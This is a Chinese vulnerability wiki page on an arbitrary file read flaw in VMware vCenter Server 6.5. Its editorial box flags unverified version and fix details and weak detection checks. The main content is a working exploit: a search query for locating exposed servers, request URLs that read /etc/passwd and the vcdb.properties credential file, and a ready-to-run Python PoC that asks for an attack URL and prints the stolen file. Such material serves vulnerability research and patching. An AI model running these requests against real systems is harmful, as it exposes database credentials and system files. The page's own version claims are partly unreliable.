



# VMware vCenter Server 任意文件读取漏洞

<!-- vulwiki-editorial:start -->
## 校订与适用边界


### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 同无编号文件读取，更完整Windows/Linux请求和脚本可补短文截断文件名
- 版本6.5.0a-f与6.5u1修复需关联核
- root/password弱关键词可误报，两个顺序请求任一异常可能掩盖另一成功
- 未命中不等无漏洞
- 缺厂商依据

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

VMware vCenter Server 特定版本存在任意文件读取漏洞，攻击者通过构造特定的请求，可以读取服务器上任意文件。

## 漏洞影响

```
VMware vCenter Server 6.5.0a- f 版本
```

## 网络测绘

```
title="ID_VC_Welcome"
```

## 漏洞复现


使用POC访问漏洞点

- Windows主机

```plain
http://xxx.xxx.xxx.xxx/eam/vib?id=C:\ProgramData\VMware\vCenterServer\cfg\vmware-vpx\vcdb.properties
```




- Linux主机

```plain
https://xxx.xxx.xxx.xxx/eam/vib?id=/etc/passwd
```




## 漏洞POC

```python
import requests
import sys
import random
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mVersion: VMware vCenter任意文件读取漏洞                               \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url_windows = target_url + "/eam/vib?id=C:\ProgramData\VMware\\vCenterServer\cfg\\vmware-vpx\\vcdb.properties"
    vuln_url_linux = target_url + "/eam/vib?id=/etc/passwd"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response_linux = requests.get(url=vuln_url_linux, headers=headers, verify=False, timeout=5)
        response_windows = requests.get(url=vuln_url_windows, headers=headers, verify=False, timeout=5)
        if "password" in response_windows.text and response_windows.status_code == 200:
            print("\033[32m[o] 目标 {}存在漏洞 ,成功读取 vcdb.properties \033[0m".format(target_url))
            print("\033[32m[o] Windows系统, 响应为:\n{} \033[0m".format(response_windows.text))
        elif "root" in response_linux.text and response_linux.status_code == 200:
            print("\033[32m[o] 目标 {}存在漏洞 ,成功读取 /etc/passwd \033[0m".format(target_url))
            print("\033[32m[o] Linux系统, 响应为:\n{} \033[0m".format(response_linux.text))
        else:
            print("\033[31m[x] 不存在漏洞 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```




---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
